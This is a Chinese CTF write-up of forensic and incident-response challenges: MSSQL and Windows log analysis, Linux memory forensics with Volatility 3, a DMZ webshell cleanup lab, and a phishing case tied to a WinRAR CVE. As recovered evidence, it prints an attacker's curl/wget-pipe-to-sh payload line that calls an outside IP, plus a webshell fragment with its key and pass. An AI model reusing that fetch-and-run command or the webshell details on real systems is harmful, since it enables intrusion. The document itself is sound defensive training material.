

### 前言
solar赛复现，不过没复现reverse
而且有些题在qsnctf靶场没找到
所以就剩这四道题了
## 日志排查
```plain
时间：2025年12月17日 事件：安全运营中心（SOC）监测到数据库服务器流量异常，随后发现管理员组中出现不明账号。任务：请根据提供的日志文件（MSSQL ERRORLOG、Windows 安全日志、系统镜像/注册表），按时间顺序回答以下问题

备份下载1：https://pan.baidu.com/s/1d8M7slE_2PXr3fLD2VzayQ 提取码: hjfa
备份下载2：https://wwboa.lanzouq.com/ijPsg3egom3i
备份下载3：链接：https://pan.quark.cn/s/a7a9dfbdfaa2 提取码：3xeW

请勿导入注册表！！
```
### 任务1
```plain
任务名称：任务1
任务分数：2.00
任务类型：静态Flag
在攻击真正发生之前，防火墙记录到了针对 SQL Server 的暴力破解行为。请找出发起暴力破解（大量登录失败）的 IP 地址。（按时间顺序用_连接，FLAG格式为：flag{ip_ip}
```



在`Application.evtx`里找到登录日志
服了，翻了半天，早知道应该先问ai知道事件ID的



再往上翻找到第二个ip
```
flag{192.168.146.135_192.168.146.161}
```
### 任务2
```plain
任务名称：任务2
任务分数：2.00
任务类型：静态Flag
请分析 MSSQL 日志文件，找到攻击者 IP 192.168.146.135 在结束暴力破解后，首次成功使用“SQL Server 身份验证”建立连接的时间。FLAG格式为：flag{2025/01/01 11:00:01}
```



筛选登录成功的事件id `18454`
然后找由192.168.146.135发起的登录
且在爆破时间段内的事件
```
flag{2025/12/17 11:17:26}
```
### 任务3
```plain
任务名称：任务3
任务分数：2.00
任务类型：静态Flag
经分析，攻击者登陆数据库后进行了关键配置更改以启用命令执行功能。 请还原攻击者在该时间点内的完整配置修改链（按日志记录顺序）。FLAG格式为：flag{配置名1_配置名2}
```

往上翻翻就看到了
**`MSSQLSERVER` 事件 ID `15457`**，就是 **SQL Server 配置项被修改** 的记录





```
flag{show advanced options_xp_cmdshell}
```

### 任务4
```plain
任务名称：任务4
任务分数：2.00
任务类型：静态Flag
攻击者在执行复杂的命令前，先写入了一个测试文件以验证写入权限。请提供该测试文件的完整绝对路径。FLAG格式为：flag{C:\ABC\def.txt}
```

翻了下没有`Sysmon.evtx`
所以不能看文件创建事件

到 `Security.evtx` 里找相关进程创建
通过上题信息判断写入文件在 `2025/12/17 11：29：11` 之后



定位到文件创建即可
```
flag{C:\Windows\Temp\test.txt}
```
### 任务5
```plain
任务名称：任务5
任务分数：2.00
任务类型：静态Flag
攻击者觉得通过数据库执行命令太麻烦，于是创建了一个系统后门用户 123。该后门用户的明文密码是什么？
```

接上题，再往上翻翻就找到创建用户123的日志



```
flag{33arsierting}}
```

### 任务6
```plain
任务名称：任务6
任务分数：2.00
任务类型：静态Flag
在创建完后门用户后，攻击者登录了服务器。请找出用户 123 首次 RDP 登录成功的精确时间（Logon Type为3的）。flag格式为：flag{2025/01/01 15:00:00}
```

接上题，继续往上翻



有两个，logontype都是3
试出来是03秒的那个
```
flag{2025/12/17 15:06:03}
```
### 任务7
```plain
任务名称：任务7
任务分数：2.00
任务类型：静态Flag
攻击者为了确保服务器重启后仍能控制机器，在系统中留下了三个持久化后门。 请找到这三处隐藏的字符串，并按以下顺序拼接：flag{flag1flag2flag3}
```

接上题，往上翻可以直接定位到设置flag的日志



```
flag{krjl424wq3453dalbzlmqu458xktq}
```
## Solar内存取证
### linux内存取证

> [!NOTE] Tips
> Linux内存和Windows内存差别极大，最好使用vol3来取证，还需要准备对应内核的符号表的流程等

#### 确定linux内核
```
python vol.py -f linux.lime banners.Banners
```


```
Linux version 6.8.0-49-generic
```
#### 准备和内核完全匹配的Linux symbols(重点)
Volatility 3 分析 Linux 内存，不像 Windows 那样很多东西自动给你喂好
它需要知道：

- 内核结构体长什么样
- 偏移是多少
- 符号地址在哪里

这些信息要靠 **symbol table**

而 symbol table 通常是拿这两个东西用 `dwarf2json` 生成的：

- `System.map-6.8.0-49-generic`
- `vmlinux-6.8.0-49-generic`

其中最关键的是那个 **带调试信息的 `vmlinux`**

因此这里从 Ubuntu 的 debug symbol 仓库，下载 6.8.0-49-generic 这个内核对应的调试包
```
wget -c --content-disposition http://ddebs.ubuntu.com/pool/main/l/linux/linux-image-unsigned-6.8.0-49-generic-dbgsym_6.8.0-49.49_amd64.ddeb
```
这个 `.ddeb` 文件本质上是 Ubuntu 的 **调试符号包**，里面通常就有需要的
```
/usr/lib/debug/boot/vmlinux-6.8.0-49-generic
```
然后起docker创建一个和内核版本相同的环境用于处理调试包
```
Ubuntu 24.04 默认主线 GA 内核就是 6.8 系列
docker run -it --rm -v $PWD:/volatility ubuntu:24.04 /bin/bash
```
上面的命令会直接进入docker的/bin/bash
并且将当前目录挂载到容器的/volatility

- 宿主机当前目录里的文件
- 在容器里会出现在 `/volatility`

这样你在容器里生成的文件，宿主机也能看到
当前目录最好有dwarf2json
不然还得在docker里装
```
进入挂载目录
cd /volatility

解压 `.ddeb`
mkdir extracted
dpkg-deb -x linux-image-unsigned-6.8.0-49-generic-dbgsym_6.8.0-49.49_amd64.ddeb extracted

在类似目录中找到
/volatility/extracted/usr/lib/debug/boot/vmlinux-6.8.0-49-generic

当前目录没有dwarf2json的要先下载
wget -O dwarf2json https://github.com/volatilityfoundation/dwarf2json/releases/latest/download/dwarf2json-linux-amd64
chmod +x dwarf2json

然后用dwarf2json
./dwarf2json linux --elf /volatility/extracted/usr/lib/debug/boot/vmlinux-6.8.0-49-generic > linux-image-6.8.0-49-generic.json

只要你的调试版 `vmlinux` 里符号和 DWARF 都完整，单独用它就能产出可用的 symbol table
不一定需要system.map

最后exit退出docker
```
最后将这个json导入vol3
```
cp linux-image-6.8.0-49-generic.json volatility3/symbols/linux
这里的完整路径是~/volatility3/volatility3/symbols/linux
```
检验是否成功导入
```
python3 vol.py isfinfo | grep -i '6.8.0-49'
```




### 任务1
```plain
任务名称：攻击者使用什么漏洞入侵了服务器
任务分数：2.00
任务类型：静态Flag
注意：flag格式flag{CVE-2025-12345}
```

看下进程
```
python3 vol.py -f ubuntu_24_04_6_8_0.lime linux.pstree
```



很明显的利用链
还看到一个java服务



psaux看下启动命令，看看具体是什么服务
```
python3 vol.py -f ubuntu_24_04_6_8_0.lime linux.psaux | grep "4325"
```





看到是Apache ActiveMQ服务，找一下cve



找到rce漏洞
```
flag{CVE-2023-46604}
```
### 任务2
```plain
任务名称：攻击者的服务器IP
任务分数：2.00
任务类型：静态Flag
注意：flag格式flag{123.123.123.123}
```

直接看网络
```
python3 vol.py -f ubuntu_24_04_6_8_0.lime linux.sockstat | grep "ESTABLISHED"
```



名为4的进程就是rce连接
```
flag{199.68.217.92}
```
### 任务3
```plain
任务名称：攻击者执行的载荷命令
任务分数：2.00
任务类型：静态Flag
flag不包含空格，以flag{}包裹
```
先查历史命令
```
python3 vol.py -f ubuntu_24_04_6_8_0.lime linux.bash
```



历史被删了，有点难办
那只能通过strings扫描原始镜像，筛选攻击者ip
```
strings ubuntu_24_04_6_8_0.lime | grep "199.68.217.92"
```



找到执行的载荷
```
flag{(curl-fsSL-m180http://199.68.217.92:61231/slt||wget-T180-qhttp://199.68.217.92:61231/slt)|sh}
```
### 任务4
```plain
任务名称：攻击者进行权限维持可疑的服务路径
任务分数：2.00
任务类型：静态Flag
flag格式flag{/tmp/123}
```

在Linux权限维持中，攻击者常将恶意二进制文件注册为系统服务

直接列出所有在内存文件缓存中记录的服务文件
```
python3 vol.py -f ubuntu_24_04_6_8_0.lime linux.pagecache.Files | grep "/etc/systemd/system/"
```



只有这个是在25年被修改过的，应该是这个

> [!NOTE] 官方wp
> 其中dhclient.service被多次展示，并且该服务在 Ubuntu 24.04 的标准 systemd 架构中并不存在。其位置、命名方式及内存引用特征，表明该 unit 极可能由攻击者创建
```
flag{/etc/systemd/system/dhclient.service}
```
### 任务5
```plain
任务名称：攻击者创建了拥有root权限的账户
任务分数：2.00
任务类型：静态Flag
flag格式flag{ubuntu}
```
因为linux没有像windows那样hashdump的插件
因此这里用strings查看会快很多
```
strings ubuntu_24_04_6_8_0.lime | grep "/etc/passwd"
```



能看到有test和ubunto用户创建了root账号
测试出来是ubunto用户
```
flag{ubunto}
```
## 仿真DMZ环境应急响应
```plain
仿真DMZ环境应急响应
描述：
本次环境取自于实际应用中dmz隔离，仿真模拟了(生产车间/测试车间)环境，其中Windows server 2019系统为主要突破点，此机器搭建了一个对外开放的论坛，以便于让员工、客户等能够及时看到企业动态
由于企业对于网络安全疏忽，未对生产车间及其它区域服务器做物理隔离，导致攻击者以Windows server 2019系统(DMZ1)为突破口攻击成功，获取终端权限后，攻击者未收手，而是进行内网漏洞扫描，拿下另一台Ubuntu(DMZ2)的机器，并做了权限维持操作，请根据题目描述依次排查进行学习
注意：这些攻击都是在无安全设备的情况下进行的，所以在实战中遇到需根据日志及可能存在的漏洞去判断、测试、复盘等条件总结
注意：web日志与系统日志有时区差别，这也仿真了在实战中一些开放配置不当导致的溯源难度加大问题
机器1：Windows server 2019(双网卡)，账号密码：administrator/Solarsec521
机器2：Ubuntu(单网卡)，账号密码：root/Solarsec521

下载地址：https://pan.baidu.com/s/1kM2ojRM7QvsZvwbejqE4gQ 提取码: ek24
备用下载：https://pan.quark.cn/s/5a03e0a6611b
提取码：KHeA

解压密码：HHsolar88*90
```

### 任务1
```plain
任务名称：排查漏洞
任务分数：2.00
任务类型：静态Flag
根据开放服务排查审计日志，提交攻击者利用漏洞传入webshell的url，提交示例：flag{/flag/abc/kk=abc}
```

工具里提供了D盾，倒是方便了
扫出webshell得到后门路径





inetpub是标准IIS服务特征
在里面找到日志文件



可以在1224的日志里发现找到的webshell
在访问webshell的日志前能看到POST请求
POST请求用于上传webshell
符合flag格式



```
flag{/plugins/Ueditor/net/controller.ashx action=catchimage}
```
### 任务2
```plain
任务名称：Windows defender专项
任务分数：2.00
任务类型：静态Flag
提交Windows defender病毒和威胁防护中，拦截攻击者最早执行的命令，提交示例：flag{dir}
```

```
应用程序和服务日志
└─ Microsoft
   └─ Windows
      └─ Windows Defender Firewall with Advanced Security
         ├─ Firewall          # 常规防火墙事件（默认启用）
         ├─ FirewallVerbose  # 详细日志（需手动启用）
         └─ ConnectionSecurity # IPsec/连接安全规则事件
      └─ Windows Defender
         └─ Operational  # 核心操作日志（扫描、检测、处理、更新）
```

到Operational的核心操作日志里找病毒防护相关内容
根据前面的日志先定位到12/24
然后事件ID 1116为检测到威胁



```
flag{whoami}
```
### 任务3
```plain
任务名称：Windows defender专项
任务分数：2.00
任务类型：静态Flag
提交Windows defender病毒和威胁防护中，杀软隔离的第一个webshell文件，提交文件名，提交示例：flag{shell.php}
```

事件ID 1117为处理威胁
往后翻翻找到webshell





```
flag{6390217215502412559088650.aspx}
```
### 任务4
```plain
任务名称：日志专项
任务分数：2.00
任务类型：静态Flag
审计web日志，攻击者在多次上传webshell后，最终远控使用的webshell文件是哪个，提交文件名，提交示例：flag{shell.php}
```

直接看日志，最后多次使用的是哪个webshell
```
flag{6390217325293187938071651.aspx}
```
### 任务5
```plain
任务名称：木马专项
任务分数：2.00
任务类型：静态Flag
提交攻击者最终使用的webshell中key和pass，提交示例：flag{key&pass}
```

webshell内容如下
```
<%@ Page Language="C#"%><%try { string key = "3c6e0b8a9c15224a"; string pass = "solar"; string md5 = 。。。
%>
```

前几行就有pass和key
尝试后发现不正确，可能还上传或制作了其他木马？

哦，我明白了，ai分析了下木马
webshell 的 key 是 md5 加密的，解密后字符为 key

```
flag{key&solar}
```
### 任务6
```plain
任务名称：远控专项
任务分数：2.00
任务类型：静态Flag
审计系统日志，提交攻击者远控后关闭Windows defender的时间，可使用桌面\工具\FullEventLogView辅助审计，提交示例：flag{2025/1/1 12:01:01}
```

FullEventLogView确实很好用
直接爆搜Windows defender就直接出了

不过这里继续往上翻也能看到关闭windows defender的事件



```
flag{2025/12/24 12:24:07}
```
### 任务7
```plain
任务名称：远控专项
任务分数：2.00
任务类型：静态Flag
审计系统日志，提交攻击者创建的用户名及远程登录IP及时间，提交示例：flag{user&1.1.1.1&2025/1/1 12:01:01}
```

用户登录去Security日志里看
根据webshell上传时间定位创建用户的时间范围



$system是隐藏用户
登录的时候就看到了，其实可以用FullEventLogView爆搜
```
flag{$system&192.168.70.3&2025/12/24 13:32:13}
```
### 任务8
```plain
任务名称：恶意文件排查
任务分数：2.00
任务类型：静态Flag
攻击者为了进行内网渗透，上传了内网扫描及其它恶意文件，提交文件的所在路径，提交示例：flag{C:\Windows\System32}
```



Administrator用户里找到frpc和fscan
渗透常用内网转发和漏扫工具
```
flag{C:\Users\Administrator\Downloads}
```
### 任务9
```plain
任务名称：安全加固
任务分数：2.00
任务类型：静态Flag
清除攻击者用于权限维持添加的用户，清除完毕后前往C:\Users\Administrator\Desktop\flag\1.txt读取flag
```





```
flag{d47cab4549e08c5227d2afd5d4e1a051}
```
### 任务10
```plain
任务名称：安全加固
任务分数：2.00
任务类型：静态Flag
清除攻击者上传的所有webshell，清除完毕后前往C:\Users\Administrator\Desktop\flag\2.txt读取flag
```



把之前那三个webshell删了就行
```
flag{31527b4001257a29c68c357a15376e59}
```
### 任务11
```plain
任务名称：安全加固
任务分数：2.00
任务类型：静态Flag
清除攻击者上传的所有恶意文件，清除完毕后前往C:\Users\Administrator\Desktop\flag\3.txt读取flag
```

把fscan和frpc清除



```
flag{42a996202210e8572eebae2968f393db}
```
### 任务12
```plain
任务名称：内网渗透排查
任务分数：2.00
任务类型：静态Flag
开始排查Ubuntu(DMZ2)环境，通过前面排查的内网扫描结果以及攻击者上传的工具，攻击者对于内网机器Ubuntu(DMZ2)进行了漏洞利用，根据相关线索本地访问相关端口，攻击者为了权限维持，后期进行获取更多信息，提交攻击者在web端新增的账号，提交示例：flag{user}
```

下为result.txt里的扫描结果
```
192.168.59.2:22 open
192.168.59.3:80 open
192.168.59.1:135 open
192.168.59.3:135 open
192.168.59.3:139 open
192.168.59.1:139 open
192.168.59.3:445 open
192.168.59.1:445 open
192.168.59.1:8834 open
192.168.59.2:8848 open
192.168.59.1:10001 open
[*] NetInfo 
[*]192.168.59.3
   [->]WIN-S69JLUDHENG
   [->]192.168.59.3
   [->]192.168.70.12
[*] NetInfo 
[*]192.168.59.1
   [->]DESKTOP-OA5UKMA
   [->]192.168.59.1
   [->]169.254.98.147
   [->]10.0.100.53
   [->]192.168.80.1
   [->]192.168.70.1
[*] NetBios 192.168.59.1    WORKGROUP\DESKTOP-OA5UKMA     
[*] WebTitle https://192.168.59.1:8834 code:200 len:1217   title:Nessus
[*] WebTitle http://192.168.59.2:8848  code:404 len:431    title:HTTP Status 404 – Not Found
[+] PocScan http://192.168.59.2:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://192.168.59.2:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
[*] WebTitle http://192.168.59.3       code:200 len:42176  title:DTcms网站管理系统 - 动力启航_开源cms_NET开源_cms建站
[+] InfoScan http://192.168.59.3       [打印机] 
```
可以看到漏洞是nacos服务
登录虚拟机后查看网络，能看到java服务，而8848是nacos默认端口
```
ss -ltnp
```



然后上网搜索nacos的url路径和账密




这个应该也能在通过取证在数据库或配置文件里看到
不过是应急响应就不当取证做了



登录后查看用户就能看到system用户
```
flag{system}
```
### 任务13
```plain
任务名称：内网渗透排查
任务分数：2.00
任务类型：静态Flag
攻击者在web端获取到了敏感信息后获取到了终端权限，写入了隐藏用户，提交其用户名，提交示例：flag{user}
```
查看/etc/passwd



能看到root solar sys-update有登录权限
而sys-update和root的UID和GID完全一致
当然也可以试出来
```
flag{sys-update}
```
### 任务14
```plain
任务名称：安全加固
任务分数：2.00
任务类型：静态Flag
清除攻击者在web端新增的用户名后，前往/var/flag/1文件中读取flag并提交
```



直接删除就行
```
flag{ad31ea22e324ee6effd454decf7477c9}
```
### 任务15
```plain
任务名称：安全加固
任务分数：2.00
任务类型：静态Flag
清除攻击者在服务器新增的用户名所有信息，前往/var/flag/2文件中读取flag并提交
```
userdel删除显示进程占用



直接修改/etc/passwd
根据/etc/passwd里面的内容得知sys-update的家目录是/var/tmp/.sys
直接删除该目录



```
flag{85fdb55f08925b3ae7149e869124f2c4}
```
### 任务16
```plain
任务名称：安全加固
任务分数：2.00
任务类型：静态Flag
当前web端存在漏洞，先停止此web服务进程后，前往/var/flag/3文件中读取flag并提交
```
关闭web服务即可





```
flag{163e32607debcc6091e993929afe8064}
```
### 任务17
```plain
任务名称：安全加固
任务分数：2.00
任务类型：静态Flag
攻击者通过web漏洞拿到了root账号密码，请修改密码后，前往/var/flag/4文件中读取flag并提交
```
修改密码



```
flag{2d1848c8560becac27d30a5d4daf6da3}
```

## 应急溯源
```plain
用户名：setadmin
密码：123

靶场文件传输参考：https://mp.weixin.qq.com/s/_A3HiCdo6luVc6K7Ulmzpg
```

### 任务1
```plain
任务名称：钓鱼链接地址
任务分数：2.00
任务类型：静态Flag
确认恶意网页地址。
```

应该是要在浏览器记录里找
能找到Chrome和Edge的浏览记录




都看一遍就行，很明显看到是钓鱼的网址



```
flag{http://www.goog1e.com.cn}
```
### 任务2
```plain
任务名称：漏洞识别
任务分数：2.00
任务类型：静态Flag
确认该事件中被利用的漏洞编号（CVE） 格式flag{CVE-xxxx-xxxx}
```

随便翻翻能在下载里找到Google Update文件



这里先放着不管
直接上网搜一下Google Update的CVE，没怎么找到，感觉不对，再回去看下钓鱼网站
既然访问了钓鱼网站，那应该是跳转或者下载了什么东西


可以看到下载了rar文件，不过删除了，解压出来应该就是前面的两个文件，既然不是Google的CVE，那有可能是
看下WinRAR版本



直接找到对应cve



```
flag{CVE-2025-8088}
```
### 任务3
```plain
任务名称：应用版本
任务分数：2.00
任务类型：静态Flag
确定存在漏洞的应用版本，flag{x.xx.x}
```

见任务2

```
flag{7.12.0}
```
### 任务4
```plain
任务名称：触发点
任务分数：2.00
任务类型：静态Flag
定位钓鱼文件（以主机证据为准，提交无后缀文件名）。flag格式：flag{钓鱼恶意文件名}
```

见任务2

```
flag{GoogleUpdate}
```
### 任务5
```plain
任务名称：劫持手法与位置
任务分数：2.00
任务类型：静态Flag
确定本事件使用的劫持/加载手法类型，并提交“被劫持的位置”（注册表键路径)，flag格式：flag{HKCU\xxxxx}
```

先看下CVE
然后ai直接出了



```
flag{HKCU\SOFTWARE\Classes\CLSID\{1299CF18-C4F5-4B6A-BB0F-2299F0398E27}\InprocServer32}
```

### 任务6
```plain
任务名称：二阶段落地文件
任务分数：2.00
任务类型：静态Flag
确定二阶段落地文件最终路径（精确到文件名）。flag格式：flag{落地文件完整路径}
```

到注册表里找其指向



找到路径
```
flag{C:\Users\setadmin\AppData\Local\Microsoft\Edge\User Data\msedge.dll}
```
### 任务7
```plain
任务名称：任务7
任务分数：2.00
任务类型：静态Flag
确认该事件使用的回连通信类型（只写一个词）。flag类型：flag{c2_type}
```

直接把dll弄出来放到沙箱检测
结果奇安信情报沙箱好像没分析到应用层协议



试出来答案是http
```
flag{http}
```
### 任务8
```plain
任务名称：远控木马回连目的地
任务分数：2.00
任务类型：静态Flag
确定回连目的地（IP:Port），flag格式为：flag{ip:port}
```


```
flag{192.168.0.144:82}
```